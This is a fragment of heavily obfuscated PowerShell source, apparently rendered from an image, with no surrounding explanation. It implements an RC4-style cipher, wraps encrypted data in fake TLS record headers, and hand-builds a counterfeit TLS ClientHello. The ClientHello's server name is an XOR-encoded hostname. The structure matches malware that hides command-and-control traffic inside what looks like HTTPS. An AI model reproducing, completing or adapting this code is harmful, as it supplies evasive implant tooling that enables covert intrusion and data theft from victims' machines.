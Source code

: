                             $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
                        $B88BBB888BBB88B8 = $BBB88BB88BB8BBB8[($BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $BBB88BB88BB8BBB8[$B888B8BB888BB88B]) % 256]
                       $BBBBB8BBB8BBB88B += ($BBBB88888B888BBB -bxor $B88BBB888BBB88B8)
          }
             return ,$BBBBB8BBB8BBB88B
                }
    function lllIIlIIlIllllll {
                  param ([string]$B888BBBBB8B8B8BB)
              $B888B8B8B88B8BB8 = [System.Text.Encoding]::UTF8.GetBytes($B888BBBBB8B8B8BB)
                   $BBBB8888BBBBB8BB = (lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $B888B8B8B88B8BB8) + (0x02,0x04,0x06,0x08)
                     $B88BBBBBB888888B = [System.BitConverter]::GetBytes([int16]$BBBB8888BBBBB8BB.Length)
        [Array]::Reverse($B88BBBBBB888888B)
       return (0x17, 0x03, 0x03) + $B88BBBBBB888888B + $BBBB8888BBBBB8BB
                }
             function llIIlllllIIIlllI {
                 $B88B888B8888B888 = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) -BB8BB8B8BBB8B8B8 222)
          $BBBB8B8BB888B88B = [System.Text.Encoding]::ASCII.GetBytes($B88B888B8888B888)
            $BB88BBBB88B8888B = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBBB8B8BB888B88B.Length))
                          [Array]::Reverse($BB88BBBB88B8888B)
                       $B88888B888888BB8 = @(0x00) + $BB88BBBB88B8888B + $BBBB8B8BB888B88B
                   $BB8BBBB8B8888BB8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$B88888B888888BB8.Length))
                       [Array]::Reverse($BB8BBBB8B8888BB8)
         $B8888B88BB888B88 = $BB8BBBB8B8888BB8 + $B88888B888888BB8
              $B888B888BBB8B8BB = [byte[]] ([BitConverter]::GetBytes([UInt16]$B8888B88BB888B88.Length))
        [Array]::Reverse($B888B888BBB8B8BB)
                     $B8BB88BBBB8B88B8 = @(0x00,
                0x00) + $B888B888BBB8B8BB + $B8888B88BB888B88
                 $BBBB88B8BB88B88B = @(0x00, 0x0b,0x00,0x04,0x03,0x00,0x01,0x02,
                                 0x00,0x0a,0x00,0x16,0x00,0x14,0x00,0x1d,0x00,0x17,0x00,0x1e,0x00,0x19,0x00,0x18,0x01,0x00,0x01,0x01,0x01,0x02,0x01,0x03,0x01,0x04,
                                            0x00,0x23,0x00,0x00,
                              0x00,0x16,0x00,0x00,
                                      0x00,0x17,0x00,0x00,
                                    0x00,0x0d,0x00,0x1e,0x00,0x1c,0x04,0x03,0x05,0x03,0x06,0x03,0x08,0x07,0x08,0x08,0x08,0x09,0x08,0x0a,0x08,0x0b,0x08,0x04,0x08,0x05,0x08,0x06,0x04,0x01,0x05,0x01,0x06,0x01,
                                      0x00,0x2b,0x00,0x03,0x02,0x03,0x04,
                             0x00,0x2d,0x00,0x02,0x01,0x01,
                                   0x00,0x33,0x00,0x26,0x00,0x24,0x00,0x1d,0x00,0x20,
                          0x35,0x80,0x72,0xd6,0x36,0x58,0x80,0xd1,0xae,0xea,0x32,0x9a,0xdf,0x91,0x21,0x38,0x38,0x51,0xed,0x21,0xa2,0x8e,0x3b,0x75,0xe9,0x65,0xd0,0xd2,0xcd,0x16,0x62,0x54)
           $BB88BB8BB88BB88B = $B8BB88BBBB8B88B8 + $BBBB88B8BB88B88B
          $BBBB8B88888888B8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$BB88BB8BB88BB88B.Length))
         [Array]::Reverse($BBBB8B88888888B8)
     $B8888BBB888B8888 = @(0x03,0x03,0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0a,0x0b,0x0c,
                        0x0d,0x0e,0x0f,
               0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,
                        0x18,
               0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0xe0,0xe1,
                   0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,
                     0xfb,0xfc,0xfd,0xfe,0xff,0x00,0x08,0x13,0x02,0x13,0x03,0x13,0x01,0x00,0xff,0x01,0x00)
          $BB8B8BBBB88B8B8B = $B8888BBB888B8888 + $BBBB8B88888888B8 + $BB88BB8BB88BB88B
             $BB8BBB88B8B8B888 = [byte[]] ([BitConverter]::GetBytes($BB8B8BBBB88B8B8B.Length))
        [Array]::Reverse($BB8BBB88B8B8B888)
     $BBB88BBB888B8B8B = @(0x01) + $BB8BBB88B8B8B888[1..3] + $BB8B8BBBB88B8B8B
        $B88B888B8BB8BBBB = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBB88BBB888B8B8B.Length))
         [Array]::Reverse($B88B888B8BB8BBBB)
                      $BBB888888BB88B88 = @(0x16,
                   0x03, 0x01) + $B88B888B8BB8BBBB + $BBB88BBB888B8B8B
       return ,$BBB888888BB88B88